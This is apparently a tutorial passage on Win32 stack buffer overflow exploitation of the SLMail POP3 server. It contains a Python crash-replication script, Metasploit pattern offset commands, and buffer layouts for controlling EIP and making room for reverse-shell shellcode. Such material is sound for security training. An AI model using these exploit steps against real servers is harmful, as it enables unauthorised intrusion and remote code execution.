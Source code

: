 # Win32 Buffer Overflow Exploitation

### Replicating the Crash

  - Our first task in the exploitation process is to write a simple script that will replicate our observed crash, without having to run the fuzzer each time.

    ```python
    #!/usr/bin/python
    import socket s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    buffer = 'A' * 2700
    try:
      print "\nSending evil buffer..."
      s.connect(('10.0.0.22',110))
      data = s.recv(1024)
      s.send('USER username' +'\r\n')
      data = s.recv(1024)
      s.send('PASS ' + buffer + '\r\n')
      print "\nDone!."
    except:
      print "Could not connect to POP3!"
    ```

### Controlling EIP

  - Getting control of the EIP register is a crucial step of exploit development.

  - For this reason, it is vital that we locate those 4 A’s that overwrite our EIP register in the buffer.
  - There are two common ways to do this:

    #### Binary Tree Analysis

      - Instead of 2700 A’s, we send 1350 A'ʹs and 1350 B'ʹs.
      - If EIP is overwritten by B'ʹs, we know the four bytes reside in the second half of the buffer.
      - We then change the 1350 B'ʹs to 675 B'ʹs and 675 C'ʹs, and send the buffer again.
      - If EIP is overwritten by C'ʹs, we know that the four bytes reside in the 2000–2700 byte range.
      - We continue splitting the specific buffer until we reach the exact four bytes that overwrite EIP.
      - Mathematically, this should happen in seven iterations.

    #### Sending a Unique String

      - The faster method of identifying these four bytes is to send a unique string of 2700 bytes, identify the 4 bytes that overwrite EIP, and then locate those four bytes in our unique buffer.
      - __pattern_create.rb__ is a Ruby tool for creating and locating such buffers, and can be found as part of the Metasploit Framework exploit development scripts.

        ```shell
        > locate pattern_create
        > /usr/share/metasploit-framework/tools/patte_create.rb 2700
        ```

      - We can now use the companion to pattern_create, pattern_offset.rb, to discover the offset of these specific 4 bytes in our unique byte string.
      ![EIP Overwritten by the Unique Pattern](/images/34.png)
        ```shell
        > /usr/share/metasploit-framework/tools/pattern_offset.rb 39694438
        # running resutl :[*] Exact match at offset 2606
        ```

      - The pattern_offset.rb script reports these 4 bytes being located at offset 2606 of the 2700 bytes.
      - Let’s translate this to a new modified buffer string, and see if we can control the EIP register. We modify our exploit to contain the following buffer string

          ```python
          buffer = "A" * 2606 + "B" * 4 + "C" * 90
          ```

          ![EIP is Controlled](/images/35.png)

        - Sending this new buffer to the SLMail POP3 server produces the following crash in our debugger. Once again, take note of the ESP and EIP registers.
        - This time, the ESP has a different value than our first crash. The EIP register is cleanly overwritten by B’s (\x42), signifying that our calculations were correct, and we can now control the execution flow of the SLMail application.

      - Where, exactly, do we redirect the execution flow, now that we control the EIP register?
      - Part of our buffer can contain the code (or shellcode) we would like to have executed by the SLMail application, such as a reverse shell.

### Locating Space for Your Shellcode

  - The Metasploit Framework can automatically generate shellcode payloads.
  - A standard reverse shell payload requires about 350-400 bytes of space.
  - Looking back at the last crash, we can see that the ESP register points directly to the beginning of our buffer of C’s.

  ![ESP is Pointing to the Buffer of C'ʹs](/images/36.png)
  - However, on counting those C’s, we notice that we have a total of 74 of them – not enough to contain a 350-byte payload.
  - One easy way out of this is simply to try to increase our buffer length from 2700 bytes to 3500 bytes, and see if this results in a larger buffer space for our shellcode.

    ```python
    buffer = "A" * 2606 + "B" * 4 + "C" * (3500 – 2606 - 4)
    ```

  ![Our Increased Buffer Length is Successful](/images/37.png)
